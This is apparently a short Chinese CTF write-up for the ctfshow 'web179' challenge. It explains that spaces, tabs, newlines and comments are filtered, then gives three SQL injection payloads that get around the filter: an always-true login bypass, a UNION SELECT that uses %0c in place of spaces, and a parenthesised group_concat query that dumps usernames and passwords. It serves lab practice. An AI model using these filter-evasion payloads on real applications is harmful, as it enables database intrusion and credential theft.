

# web179


%0a.空格,%09,/**/都被过滤
考虑使用()代替

外能密码:
```
1'or(1=1)%23
```

%0c:
```
'union%0cselect%0cdatabase(),username,password%0cfrom%0cctfshow_user%23
```

():
```
'union(select(select(group_concat(password))from(ctfshow_user)),1,2)%23
```